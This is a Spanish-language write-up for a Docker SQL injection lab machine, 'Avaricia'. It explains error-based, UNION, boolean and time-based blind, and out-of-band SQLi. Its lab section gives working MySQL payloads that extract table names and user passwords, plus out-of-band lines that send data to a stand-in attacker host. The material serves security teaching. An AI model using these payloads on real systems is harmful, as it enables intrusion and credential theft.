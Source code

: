 = Avaricia
:author: Manuel L. Quero
:toc: left
:doctype: book

<<<

== Ataque SQL Injection (SQLi)

Los ataques de inyección SQL se basan en la manipulación de bases de datos SQL mediante la inserción de consultas maliciosas en campos de entrada. Esto permite a un atacante alterar datos, acceder a información confidencial y realizar acciones no autorizadas. Un usuario malintencionado podría:

* Suplantar la identidad de otro usuario con más privilegios.
* Elevar sus propios permisos o los de otros hasta niveles administrativos.
* Manipular datos existentes o eliminarlos.
* Obtener acceso a información sensible almacenada en la base de datos.

Existen tres grandes grupos de ataques SQLi:

=== 1. In-band SQL injection

Este es el tipo de ataque SQLi más clásico y directo. Se caracteriza porque el atacante envía consultas SQL maliciosas y recibe los resultados por el mismo canal de comunicación, generalmente como una respuesta de la base de datos en una página web.

Dentro de este grupo encontramos dos subtipos:

==== a. Error-based SQL injection

Este ataque explota los mensajes de error devueltos por la base de datos para obtener información sensible. Aunque estos errores pueden parecer inofensivos, un atacante puede utilizarlos para:

* Obtener la versión de la base de datos y poder usar ataques específicos dependiendo de la versión.
* Conocer la estructura de la base de datos para poder intentar SQLi más específicas.
* Extraer datos de la base de datos. El proceso es más largo y complejo pero se pueden manipular los errores para extraer datos.

==== b. Union-based SQL injection

Este ataque utiliza la cláusula *UNION* para combinar en una misma consulta información legítima con datos sensibles. Es un método especialmente peligroso, ya que permite al atacante recuperar casi cualquier dato almacenado en la base de datos con una única consulta.

=== 2. Blind SQL Injection

Las inyecciones SQL a ciegas son una variante en la que el atacante no recibe respuestas directas de la base de datos. En lugar de obtener mensajes de error o resultados visibles, debe inferir la información mediante observación indirecta.

Este tipo de ataques funciona como un sistema de "verdadero o falso", donde el atacante prueba diferentes consultas y analiza los cambios en el comportamiento del sistema.

Si quieres saber más sobre este tipo de ataques puedes mirar -> https://www.exploit-db.com/docs/47367[Inyección SQL a ciegas]

Dentro de este grupo encontramos dos subtipos:

==== a. Boolean-Based SQL Injection

En este ataque, el atacante inyecta una condición que evalúa si es *TRUE* o *FALSE*, observando las diferencias en la respuesta del servidor. Normalmente, se utiliza la cláusula *AND* para construir estas pruebas.

==== b. Time-based SQL Injection

En este caso, el ataque se basa en utilizar funciones como *SLEEP()* o *BENCHMARK()* para medir los tiempos de respuesta y determinar si una consulta se ejecutó correctamente.

=== 3. Out-of-band SQL injection (OOB SQLi)

El ataque de SQL fuera de banda consiste en enviar la información consultada a través de un canal diferente al utilizado para la interacción con la aplicación. El atacante usa comandos SQL para que envíen información a través de una conexión de red directa, una solicitud DNS o una solicitud HTTP

<<<

== Solucionar la máquina

Vamos a ver cómo realizar los diversos tipos de ataques de inyección SQL que hemos visto anteriormente y ver las respuestas que nos dan, además de entender las consultas que realizamos.

Sería conveniente utilizar una distribución Linux, es recomendable usar Kali Linux.

=== Despliegue de la máquina

Como requisito, necesitaremos tener instalado docker y docker-compose.

Podemos ver como instalar docker para varias distribuciones de linux -> https://docs.docker.com/engine/install/[Instalar Docker]

Podemos ver como instalar docker-compose para varias distribuciones de linux -> https://docs.docker.com/compose/install/linux/[Instalar Docker-Compose]

Necesitaremos descargar primeramente el auto_deploy.sh, el cual se muestra como una pirámide en la página. Después en un directorio deberemos tener el auto_deploy.sh, avaricia.tar y docker-compose.yml, deberemos acceder con la terminal a dicho directorio y ejecutar el siguiente comando. 

(Si el auto_deploy no tiene permisos se los damos mediante *chmod +x*). 

[source,bash]
----
$ sudo bash auto_deploy.sh avaricia.tar
----

En nuestro caso la base de datos usa Mysql, podemos ver una guía de los distintos payloads para otros servicios de bases de datos -> https://portswigger.net/web-security/sql-injection/cheat-sheet[SQLiCheatSheet].

=== 1. In-band SQL injection

==== a. Error-based SQL injection

Con este ataque, podremos obtener mucha información sobre la base de datos, desde su versión hasta contraseñas.

===== Reconocimiento

Pero antes de esto deberemos comprobar si nos muestra los errores o no para ello deberemos hacer la siguiente consulta:

----
Usuario: '
Contraseña: 1234
----

Al poner esa comilla simple, se cierra la consulta que hace la web al servidor de mysql, por lo que el resto sería un error en la sintaxis de sql.

[.text-center]
image::assets/in-band/error-based/Recon1.png[Reconocimiento1]

[.text-center]
image::assets/in-band/error-based/Recon2.png[Reconocimiento2]

===== Payloads

Para cada uno de ellos utilizaremos la clausula updatexml(), que permite modificar datos XML dentro de bases de datos MySQL. En nuestro caso lo usaremos para lanzar los errores y mostrar su contenido como un mensaje.

----
UPDATEXML(xml_target, xpath_expr, new_value)
----

*Obtener la versión del motor de MySQL*

----
Usuario: ' AND updatexml(null, concat(0x3a, @@version), null) -- '
Contraseña: 
----

* *'* -> Esto es un carácter de comilla simple que cierra la consulta original y nos permite iniciar la nuestra.
* *AND* -> Añadimos una condición a la consulta original.
* *updatexml()* -> La función intenta procesar una expresión XML, pero si se le pasa un valor que no es válido como XML (en este caso, un valor concatenado con concat), lanzará un error. El contenido que se pase dentro de concat() se convierte en el mensaje de error, lo que permite al atacante obtener información sensible.
** *null* -> Sirve para no afectar al ataque.
** *concat(0x3a, @@version)* -> Con esto, concatenaremos varias cadenas, el valor de _0x3a_ en hexadecimal corresponde con el carácter :, que se usará como separador entre los valores concatenados. Y _@@version_ es una variable global en MySQL que devuelve la versión del servidor.
** *null* -> Sirve para no afectar al ataque.
** *--* -> Sirven para que el resto de consulta sea comentado y sea ignorado.
** *'* -> Este carácter es para cerrar la otra comilla simple y que no nos de ningún error, y así se pueda comentar el resto de la consulta correctamente.

[.text-center]
image::assets/in-band/error-based/Version1.png[Version1]

[.text-center]
image::assets/in-band/error-based/Version2.png[Version2]

*Obtener el nombre de la base de datos actual*

----
Usuario: ' AND updatexml(null, concat(0x3a, database()), null) -- '
Contraseña: 
----

Como podemos ver la sintaxis es la misma que el anterior pero cambia el contenido del concat().

* *database()* -> Esta es una función de MySQL que devuelve el nombre de la base de datos actual a la que está conectado el servidor MySQL.

[.text-center]
image::assets/in-band/error-based/BaseDatos1.png[BaseDatos1]

[.text-center]
image::assets/in-band/error-based/BaseDatos2.png[BaseDatos2]

*Obtener el nombre de la primera tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.tables* -> _information_schema_ es una base de datos especial en MySQL que contiene información sobre todas las bases de datos y sus tablas. La tabla tables contiene los nombres de todas las tablas de una base de datos.

* *table_schema=database()* -> database() devuelve el nombre de la base de datos actual. Al usar esta función dentro de la consulta, estás buscando las tablas dentro de la base de datos actual.

* *LIMIT 0,1* -> Esto limita los resultados de la consulta a una sola fila. De esta forma obtendremos solo el primer nombre de tabla de la base de datos.

[.text-center]
image::assets/in-band/error-based/Usuarios1.png[TablaUsuarios1]

[.text-center]
image::assets/in-band/error-based/Usuarios2.png[TablaUsuarios2]

*Obtener el nombre de la primera columna de una tabla*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
Contraseña: 
----

* *information_schema.columns* -> Esta tabla contiene información sobre las columnas de todas las tablas de la base de datos. Se puede consultar para obtener detalles sobre las columnas de una tabla específica.

* *table_name='usuarios'* -> Aquí estamos buscando las columnas de la tabla llamada usuarios (que lo podemos obtener de la anterior consulta).

* *LIMIT 0,1* -> Limitamos el resultado a solo una columna para facilitar la consulta y evitar que se devuelvan demasiados resultados.

[.text-center]
image::assets/in-band/error-based/Colum1.png[Columna1]

[.text-center]
image::assets/in-band/error-based/Colum2.png[Columna2]

*Extraer usuarios y contraseñas (u otras columnas)*

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT usuario FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

Como ya sabemos la tabla y podemos conocer las distintas columnas que tiene, se hace más sencilla la busqueda de información. En este caso, vamos a extraer el nombre del primer usuario.

[.text-center]
image::assets/in-band/error-based/Nombre1.png[NombreUsuarios1]

[.text-center]
image::assets/in-band/error-based/Nombre2.png[NombreUsuarios2]

----
Usuario: ' AND updatexml(null, concat(0x3a, (SELECT password FROM usuarios LIMIT 0,1)), null) -- '
Contraseña: 
----

También podemos ver las contraseñas si sabes la columna en la que están. Si queremos ver otros datos de la misma columna podemos cambiar el LIMIT a LIMIT(1,1).

[.text-center]
image::assets/in-band/error-based/Contraseñas1.png[Contraseñas1]

[.text-center]
image::assets/in-band/error-based/Contraseñas2.png[Contraseñas2]

==== b. Union-based SQL injection

===== Reconocimiento

Para este tipo de ataques es importante conocer cuantas columnas tiene la consulta original, para que las columnas que inyecta el UNION coincidan.

Entonces, podemos usar el payload anterior para obtener el nombre la columna empezando por LIMIT(0,1) hasta que nos de error.

----
' AND updatexml(null, concat(0x3a, (SELECT column_name FROM information_schema.columns WHERE table_name='usuarios' LIMIT 0,1)), null) -- '
----

O podemos usar un payload UNION para ir sacando mediante NULL la cantidad de columnas que tiene.

----
Usuario: ' UNION SELECT NULL, NULL, NULL, NULL,(...) -- '
Contraseña: 
----

Aclarar que los (...) son NULL en caso que la tabla tenga más columnas. Si la tabla tiene seis columnas se deberán añadir dos NULL más al payload.

De esta forma, sabremos la estructura de la tabla y podremos incluso acceder, aunque no tengamos datos de nadie todavía. Esto nos permitirá inyectar datos específicos.

[.text-center]
image::assets/in-band/union-based/Recon1.png[Reconocimiento1]

[.text-center]
image::assets/in-band/union-based/Recon2.png[Reconocimiento2]

===== Payloads

*Recuperar el nombre de la base de datos*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), database() -- '
Contraseña: 
----

Este payload lo que nos mostrará será el nombre de la base de datos en la posición que pongamos database(), es decir, si la tabla tiene seis columnas y en la cuenta se muestran los datos de las tres últimas columnas, tendremos que poner database() en alguna de esas posiciones para obtener los datos, en este caso el nombre de la base de datos.

[.text-center]
image::assets/in-band/union-based/BaseDatos1.png[BaseDatos1]

[.text-center]
image::assets/in-band/union-based/BaseDatos2.png[BaseDatos2]

*Recuperar el nombre de las tablas*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(table_name) FROM information_schema.tables WHERE table_schema=database() -- '
Contraseña: 
----

* *group_concat(table_name)* -> Esta función de MySQL concatena todos los nombres de las tablas en la base de datos, obteniendolas separadas por comas.

* *information_schema.tables* -> Esta tabla contiene información sobre todas las tablas en todas las bases de datos en MySQL. La consulta se limita a la base de datos actual utilizando WHERE *table_schema=database()*.

[.text-center]
image::assets/in-band/union-based/Tablas1.png[NombreTablas1]

[.text-center]
image::assets/in-band/union-based/Tablas2.png[NombreTablas2]

*Recuperar los nombres de las columnas de una tabla específica*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(column_name) FROM information_schema.columns WHERE table_name='usuarios' -- '
Contraseña: 
----

* *group_concat(column_name)* -> Similar al paso anterior, esta función concatenará los nombres de las columnas de la tabla usuarios y los devolverá como un solo resultado.

* *information_schema.columns* -> Esta tabla contiene información sobre todas las columnas de todas las tablas en MySQL. Al limitarla por table_name='usuarios', obtenemos los nombres de las columnas de la tabla usuarios.

[.text-center]
image::assets/in-band/union-based/Columnas1.png[Columnas1]

[.text-center]
image::assets/in-band/union-based/Columnas2.png[Columnas2]

*Extraer datos de las columnas (usuarios, contraseñas u otras columnas)*

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(usuario) FROM usuarios -- '
Contraseña: 
----

* *group_concat(usuario)* -> Aquí estamos extrayendo los datos de la columna usuario de la tabla usuarios y concatenándolos para que todos los nombres de usuario sean devueltos en una sola cadena separada por comas.

[.text-center]
image::assets/in-band/union-based/Usuarios1.png[Usuarios1]

[.text-center]
image::assets/in-band/union-based/Usuarios2.png[Usuarios2]

----
Usuario: ' UNION SELECT NULL, NULL, NULL,(...), group_concat(password) FROM usuarios -- '
Contraseña: 
----

* *group_concat(password)* -> Similar al paso anterior, pero en este caso estamos extrayendo los valores de la columna password de la tabla usuarios.

[.text-center]
image::assets/in-band/union-based/Contraseñas1.png[Contraseñas1]

[.text-center]
image::assets/in-band/union-based/Contraseñas2.png[Contraseñas2]

=== 2. Blind SQL Injection

==== a. Boolean-Based SQL Injection

En los ataques boolean-based se usan operadores lógicos como AND u OR para alterar las condiciones de una consulta SQL. AND se usa cuando se conoce una condición válida (como un usuario) y se quiere comprobar si otra también lo es, por ejemplo 1=1. OR, en cambio, permite que la consulta sea verdadera si al menos una condición se cumple, como usuario = 'admin' OR 1=1, forzando así una respuesta positiva.

En nuestro caso, vamos a usar AND ya que con los anteriores resultado sabemos que existe el usuario *admin* y *user*. En caso de que no conozcamos estos datos se recomienda usar OR.

===== Reconocimiento

Ahora valuaremos si la página es vulnerable a este tipo de ataques, la lógica de esta página es que si es verdad nos dejará acceder, si es falso nos dirá que las credenciales son incorrectas. A este tipo de ataques se les suele hacer un script para automatizar la iteración y obtener respuestas para cosas más específicas.

----
Usuario: admin' AND 1=1 --
Contraseña: 
----

[.text-center]
image::assets/blind/boolean-based/Recon1.png[Reconocimiento1]

[.text-center]
image::assets/blind/boolean-based/Recon2.png[Reconocimiento2]

----
Usuario: admin' AND 1=2 --
Contraseña: 
----

[.text-center]
image::assets/blind/boolean-based/Recon3.png[Reconocimiento3]

[.text-center]
image::assets/blind/boolean-based/Recon4.png[Reconocimiento4]

===== Payloads

*Inferir nombre de la base de datos*

En esta parte, cómo queremos algo muy específico que es el nombre de la base de datos, podemos ir letra por letra para ir sacando el nombre de la base de datos o tener un script y usar un diccionario para sacarlo más rápido. En este caso buscamos *banco*.

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'a' -- 
Contraseña:
----

Y así deberemos seguir con cada letra, obviamente esto no está pensado para hacerlo así y hay scripts que solucionan estos problemas. Una herramienta muy eficaz es https://github.com/sqlmapproject/sqlmap[sqlmap].

* *SUBSTRING(database(),1,1)* -> Toma el primer carácter del nombre de la base de datos. Para pasar al siguiente caracter sería SUBSTRING(database(),2,1), etc.
* *= 'b'* -> Compara si ese carácter es 'b'.

[.text-center]
image::assets/blind/boolean-based/BaseDatos1.png[BaseDatos1]

[.text-center]
image::assets/blind/boolean-based/BaseDatos2.png[BaseDatos2]

----
Usuario: admin' AND SUBSTRING(database(),1,1) = 'b' -- 
Contraseña:
----

[.text-center]
image::assets/blind/boolean-based/BaseDatos3.png[BaseDatos3]

[.text-center]
image::assets/blind/boolean-based/BaseDatos4.png[BaseDatos4]

*Inferir nombre de tablas*

En este caso buscamos *usuarios* en la base de datos actual.

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'a' -- 
Contraseña:
----

[.text-center]
image::assets/blind/boolean-based/Tablas1.png[Tablas1]

[.text-center]
image::assets/blind/boolean-based/Tablas2.png[Tablas2]

----
Usuario: admin' AND (SELECT SUBSTRING(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'u' -- 
Contraseña:
----

[.text-center]
image::assets/blind/boolean-based/Tablas3.png[Tablas3]

[.text-center]
image::assets/blind/boolean-based/Tablas4.png[Tablas4]

Este payload consulta la primera tabla del esquema actual y verifica si empieza con la letra 'u'. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer columnas de una tabla*

En este caso buscamos *usuario* en la tabla *usuarios*.

----
Usuario: admin' AND (SELECT SUBSTRING(column_name,1,1) FROM information_schema.columns WHERE table_name='usuarios' LIMIT 1,1) = 'u' -- 
Contraseña:
----

[.text-center]
image::assets/blind/boolean-based/Columnas1.png[Columnas1]

[.text-center]
image::assets/blind/boolean-based/Columnas2.png[Columnas2]

Y al igual que el resto se debe de ir carácter por carácter para obtener la pálabra correcta. Se van cambiando posiciones (LIMIT 1,1, LIMIT 2,1, etc.) y posiciones del carácter (SUBSTRING(...,2,1), etc.) para inferir cada tabla y cada letra.

*Extraer datos*

En este caso buscamos *admin123* en la columna *password*.

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,1,1) FROM usuarios LIMIT 1,1) = 'u' -- 
Contraseña:
----

[.text-center]
image::assets/blind/boolean-based/Contraseña1.png[Contraseña1]

[.text-center]
image::assets/blind/boolean-based/Contraseña2.png[Contraseña2]

----
Usuario: admin' AND (SELECT SUBSTRING(usuario,2,1) FROM usuarios LIMIT 1,1) = 's' -- 
Contraseña:
----

[.text-center]
image::assets/blind/boolean-based/Contraseña3.png[Contraseña3]

[.text-center]
image::assets/blind/boolean-based/Contraseña4.png[Contraseña4]

===== Aclaración

Como hemos visto, este ataque es muy repetitivo, por lo que he recalcado que es mucho más eficaz realizarlo mediante un script. Además, en un caso real no conoceremos de antemano ninguna información, por eso he explicado en cada paso qué es lo que busco, para ir directo al objetivo y no perder tiempo con pruebas innecesarias.

==== b. Time-based SQL Injection

Este tipo de ataque es muy parecido al anterior, por lo que también recomendaría usar un script

===== Reconocimiento

En este tipo de ataques, notaremos que si es verdadero la página empezará a cargar, si es falso la página se actualizará con normalidad.

----
Usuario: admin' AND IF(1=1, SLEEP(5), 0) -- 
Contraseña:
----

[.text-center]
image::assets/blind/time/Recon1.png[Reconocimiento1]

[.text-center]
image::assets/blind/time/Recon2.png[Reconocimiento2]

----
Usuario: admin' AND IF(1=2, SLEEP(5), 0) -- 
Contraseña:
----

[.text-center]
image::assets/blind/time/Recon3.png[Reconocimiento3]

[.text-center]
image::assets/blind/time/Recon4.png[Reconocimiento4]

* *AND IF(1=1, SLEEP(5), 0)* -> Si la condición 1=1 es verdadera (siempre lo es), el servidor ejecutará SLEEP(5) y causará un retraso de 5 segundos.

===== Payloads

*Obtener el nombre de la base de datos completo*

Como ya sabemos que es *banco* podemos buscar directamente, pero ocurre como en el anterior ataque.

----
Usuario: admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
Contraseña:
----

[.text-center]
image::assets/blind/time/BaseDatos1.png[BaseDatos1]

[.text-center]
image::assets/blind/time/BaseDatos2.png[BaseDatos2]

----
admin' AND IF(SUBSTRING(DATABASE(),1,1) = 'b', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),2,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),3,1) = 'n', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),4,1) = 'c', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING(DATABASE(),5,1) = 'o', SLEEP(5), 0) -- 
----

* *IF(SUBSTRING(DATABASE(),1,1) = 'a', SLEEP(5), 0)* -> Si el primer carácter es 'a', el servidor esperará 5 segundos (esto es el ataque Time-Based).

** *SUBSTRING(DATABASE(),1,1)* -> Extrae el primer carácter del nombre de la base de datos.

*** *DATABASE()* Función de MySQL que devuelve el nombre de la base de datos actual.

*Obtener tablas sobre la base de datos*

En este caso vamos a buscar la tabla *usuarios*

----
Usuario: admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
Contraseña:
----

[.text-center]
image::assets/blind/time/Tablas1.png[Tablas1]

[.text-center]
image::assets/blind/time/Tablas2.png[Tablas2]

----
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),1,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),2,1) = 's', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),3,1) = 'u', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),4,1) = 'a', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),5,1) = 'r', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),6,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),7,1) = 'o', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT 1),8,1) = 's', SLEEP(5), 0) -- 
----

* *SELECT table_name FROM information_schema.tables WHERE table_schema = DATABASE()* -> Consulta que selecciona las tablas de la base de datos actual.

* *SUBSTRING(...)* -> Extrae el primer carácter del nombre de la primera tabla.

* *SLEEP(5)* -> Si el primer carácter es correcto (en este caso, 'u'), el servidor hará una pausa de 5 segundos.

*Obtener las columnas de una tabla*

En este caso vamos a buscar la columna *id*

----
Usuario: admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
Contraseña:
----

[.text-center]
image::assets/blind/time/Columnas1.png[Columnas1]

[.text-center]
image::assets/blind/time/Columnas2.png[Columnas2]

----
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),1,1) = 'i', SLEEP(5), 0) -- 
admin' AND IF(SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios' LIMIT 1),2,1) = 'd', SLEEP(5), 0) -- 
----

* *SELECT column_name FROM information_schema.columns WHERE table_name = 'usuarios'* -> Consulta que selecciona los nombres de las columnas de la tabla 'usuarios'.

*Obtener contraseñas o datos sensibles*

En este caso vamos a buscar la contraseña *admin123* dentro de los columna *password*

----
Usuario: admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) -- 
Contraseña:
----

[.text-center]
image::assets/blind/time/Contraseña1.png[Contraseña1]

[.text-center]
image::assets/blind/time/Contraseña2.png[Contraseña2]

----
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),1,1) = 'a', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),2,1) = 'd', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),3,1) = 'm', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),4,1) = 'i', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),5,1) = 'n', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),6,1) = '1', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),7,1) = '2', SLEEP(5), 0) --
admin' AND IF(SUBSTRING((SELECT password FROM usuarios LIMIT 1),8,1) = '3', SLEEP(5), 0) --
----

SELECT password FROM usuarios LIMIT 1: Obtiene la primera fila de la columna password de la tabla usuarios.

===== Aclaración

Como hemos podido ver, ocurre como en el caso anterior aunque cambia un poco la sintaxis, por ello recomiendo el uso de scripts en los ataques a ciegas.

=== 3. Out-of-band SQL injection (OOB SQLi)

Los ataques fuera de banda se basan en enviar la información al servidor http o dns del atacante. En nuestro caso, no podemos realizarlos ya que la base de datos debe hacer peticiones externas y al estar en local no se puede, de todas formas, vamos a ver cómo se realizan estos ataques.

Hay que entender que estos ataques se realizan cuando el atacante no puede usar el mismo canal para enviar el ataque y recibir los datos o cuando el servidor responde que es inestable. Normalmente se realiza por HTTP. Y es importante que el servidor no tenga --secure-file-priv, ya que limita la lectura o escritura de atchivos a un directorio específico.

* El atacante realiza una consulta a la web con un payload como los siguientes:

----
- HTTP: ' UNION SELECT NULL,NULL,(...),CONCAT('http://example.com/?data=', @@version) ;-- 

Este payload realiza una inyección SQL y ejecuta una consulta que solicita un archivo en el servidor del atacante. En este caso, la consulta le pide al servidor web de la víctima que realice una petición HTTP a un servidor controlado por el atacante y pase información (en este caso, la versión de MySQL) como parte de la URL.

- DNS: ' UNION SELECT NULL,NULL,(...),@@version INTO OUTFILE '\\\\example.com\\capture.txt' ;--

Similar al anterior, pero en este caso, la inyección SQL hace que la base de datos intente resolver un dominio DNS. La función load_file() o una función similar intenta acceder a un recurso en el dominio controlado por el atacante. Esto puede ser aprovechado para exfiltrar información como la versión de MySQL o el nombre de usuario.
----

* La página web realiza la consulta a la base de datos, pasando el payload del atacante en la consulta SQL.

* Cómo recibe el atacante la información:

----
- HTTP: La base de datos realiza una petición HTTP al servidor del atacante. En este caso, el payload contiene una URL que será solicitada al servidor del atacante, permitiendo que los datos (por ejemplo, la versión de la base de datos) sean enviados como parte de los parámetros de la URL.

